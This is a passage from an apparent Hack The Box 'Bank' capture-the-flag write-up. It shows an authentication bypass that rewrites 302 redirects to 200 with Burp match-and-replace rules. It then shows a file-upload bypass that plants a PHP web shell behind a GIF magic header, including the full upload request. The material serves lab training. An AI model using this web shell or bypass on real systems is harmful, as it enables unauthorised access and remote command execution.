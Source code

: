 So, if we manage to change the response code from 302 to 200, we will be able to render the page.  
To test this we can use burp and go under ```Proxy > Options > Intercept Server Responses > click on "Intercept Requests based
on the following rules"``` And now we can request /index.php, edit the the response code from 302 to 200 and now we will be able to render the page.  
Once we have tested that this works, we can create a match and replace rule so that burp will do this work automatically.  
In order to do this, we can navigate to ```Proxy > Options > Match and Replace > click on "Add"``` and create the rule as follow:
```
Type: response header
Match: 30[12] Found
Replace: 200 Ok
Regex match: true
```
Now also with intercept off we can see all the webserver pages without authenticating.  
If we request /support.php, we can see that there is an upload file function.  
This upload function takes only images, so we can try to cheat the checks and upload a payload using the following file.  
```
[root@kali Bank ]$ cat shell.gif.php          
GIF8
<?php echo system($_REQUEST['cmd']); ?>
[root@kali Bank ]$ file shell.gif.php
shell.gif.php: GIF image data 28735 x 28776
```
when we try to upload this we get an error like "file is not an image", but examining the code, we can se the below comment
```
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```
so, now we can creft the following request using .htb as file extension and upload our payload
```
POST /support.php HTTP/1.1
Host: bank.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------30419209283130348382134040843
Content-Length: 624
Origin: http://bank.htb
Connection: close
Referer: http://bank.htb/support.php
Cookie: HTBBankAuth=abhglbjitc02c6g3d1ur2pkpu7
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------30419209283130348382134040843
Content-Disposition: form-data; name="title"

asd
-----------------------------30419209283130348382134040843
Content-Disposition: form-data; name="message"

asdasd
-----------------------------30419209283130348382134040843
Content-Disposition: form-data; name="fileToUpload"; filename="shell.htb"
Content-Type: application/x-php

GIF8
<?php echo system($_REQUEST['cmd']); ?>

```